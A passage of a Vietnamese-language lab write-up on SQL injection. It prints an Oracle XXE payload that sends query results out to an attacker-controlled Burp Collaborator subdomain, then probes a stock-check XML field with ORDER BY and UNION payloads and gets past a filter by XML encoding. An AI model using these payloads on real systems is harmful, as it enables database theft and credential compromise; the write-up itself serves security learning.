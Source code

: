 ![image](https://hackmd.io/_uploads/Hy0EyoEhT.png)
Phần subdomain của dòng đen kia là password của admin.

P/S: Lúc đầu mình tưởng là phần response trong HTTP kia là password. 
```sql=
SELECT EXTRACTVALUE(xmltype('
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>
'),'/l') FROM dual
```

Phân tích payload một chút, ta có 1 DOCTYPE tên là root. Ở đây có khai báo 1 thực thể (Entity) tên là remote và được khai báo gồm dấu `%` và parameter entity của nó được tham chiếu sử dụng dấu `%`. Entity này đi với từ khóa `SYSTEM` được sử dụng để xác định 1 đối tượng bên ngoài chứa định nghĩa của DTD (document type definition - là tài liệu để định nghĩa kiểu dữ liệu cho các phần tử của XML document. Khi đọc XML document, chỉ cần đọc DTD là biết được cấu trúc XML (Thẻ `!DOCTYPE`)). Đối tượng bên ngoài này là subdomain của Burp Collab mà chúng ta host, với subdomain ở đây là câu query mà chúng ta muốn thực hiện. 
Parameter thứ hai của hàm xmltype là /l, nó lấy hết phần tử con trực tiếp của phần tử gốc. Phần tử gốc ở đây là thẻ `<?xml>` vì vậy nó lấy thẻ `DOCTYPE`.
Hàm `EXTRACTVALUE` được sử dụng để trích xuất giá trị của 1 phần từ XML.


## Lab 18: SQL injection with filter bypass via XML encoding
Description: Database chứa 1 `users` table chứa username và password của các user. Để pass bài lab thì sử dụng SQLi để lấy được thông tin tài khoản admin để đăng nhập.
Lỗ hổng ở bài này không phải ở cookie như mấy bài trước mà ở chức năng checkstock trong các mặt hàng. Nó có chứa 1 đoạn xml.

![image](https://hackmd.io/_uploads/HJhN1kDhp.png)

Trong request mình thử thay đổi cả productId và storeId thành 1+1 để xem cách input của mình được đánh giá thì đều có sự khác biệt. Mình thấy nó trả về giá trị của 1 stock khác. -> Nó sử dụng 1 câu query đến database để lấy value

Thử 1 payload trong storedId `1 ORDER BY 3` thì response trả về 0 units. Có vẻ như câu query đã sai nên không có giá trị nào trả về và mặc định sẽ là 0 units
![image](https://hackmd.io/_uploads/ByexmQ1w2p.png)

Khi mình sử dụng `1 ORDER BY 1` thì đã có giá trị trả về, có vẻ như câu query trước đến database chỉ có 1 cột. Khi đó mình sử dụng payload `1 UNION SELECT NULL` thì backend đã phát hiện và response

![image](https://hackmd.io/_uploads/ByftXJDhT.png)

Khi đó, ta có thể sử dụng Hackvertor
![image](https://hackmd.io/_uploads/SJP2XJDha.png)
Mình thấy đã có sự khác biệt trong response.

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

937 units
null
```
